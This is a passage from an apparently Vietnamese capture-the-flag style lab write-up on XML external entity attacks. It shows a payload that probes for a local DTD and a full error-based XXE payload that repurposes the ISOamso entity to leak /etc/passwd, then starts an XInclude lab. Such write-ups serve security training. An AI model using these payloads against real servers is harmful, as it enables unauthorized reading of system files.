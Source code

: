 >Các hệ thống Linux sử dụng môi trường Gnome desktop thường có tệp DTD tại `/usr/share/yelp/dtd/docbookx.dtd`. Ta có thể kiểm tra xem tệp này có tồn tại hay không bằng cách gửi payload XXE sau:
```
<!DOCTYPE foo \[ <!ENTITY % local\_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local\_dtd; \]>
```
>Nếu tệp tồn tại thì kết quả trả về số lượng sản phẩm trong kho như bình thường, ngược lại nếu không tồn tại sẽ thông báo lỗi: 
![image](https://hackmd.io/_uploads/BymVjQ7GR.png)

>Ở dạng bài này, mục tiêu là ta sẽ import một local DTD có sẵn của hệ thống và định nghĩa là một entity có chứa trong DTD đó. Ở đây, Hint chỉ ra rằng hệ thống có 1 DTD tại `/usr/share/yelp/dtd/docbookx.dtd` có chứa 1 entity tên `ISOamso`. Tạo payload sau:

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
> Trong đó:
>- `%local_dtd;` sẽ import file `/usr/share/yelp/dtd/docbookx.dtd` 
>- `%ISOamso` được định nghĩa lại nhằm lấy được nội dung file `/etc/passwd` thông qua `%file;` nhờ lỗi trả về khi external entity `%error;` tham chiếu đến `file://%file;` không tồn tại trong hệ thống.

> Lúc này, khi injection payload trên và gửi request đi, server trả về lỗi **FileNotFound** và có chứa nội dung file `/etc/passwd` cần lấy: ![image](https://hackmd.io/_uploads/Syr82m7fR.png)

>Như vậy, ta đã hoàn thành bài lab: 
![image](https://hackmd.io/_uploads/S1ZO277zR.png)

# **8. Lab: Exploiting XInclude to retrieve files**
>Lab này có tính năng **"Check sotck"** nhúng thông tin đầu vào của người dùng vào bên trong tài liệu XML phía máy chủ và sau đó được phân tích cú pháp. Bởi vì input không gửi XML nên ta không thể định nghĩa DTD để khai thác XXE thông thường.
Để giải quyết bài lab, hãy thêm một câu lệnh XInclude để truy xuất nội dung của tệp `/etc/passwd`
![image](https://hackmd.io/_uploads/rJNwlNQf0.png)

>Trong bài này thì phần body của request sẽ không chứa định dạng XML nữa, thay vào đó là cặp tham số `productID` và `storeID`: ![image](https://hackmd.io/_uploads/HJihv4XzR.png)

>Như vậy, ta không thể thực hiện cách tấn công thông thường như các bài trước nữa vì không thể control toàn bộ XML được xử lí. XInclude là một phần của ngôn ngữ XML được sử dụng để chia sẻ và tái sử dụng dữ liệu trong các tài liệu XML.
Nó cho phép ta chèn (include) nội dung của một tài liệu XML vào một tài liệu khác. Do đó, ta sẽ sử dụng **XInclude** vào bất kì trường nào để include payload vào!! 
    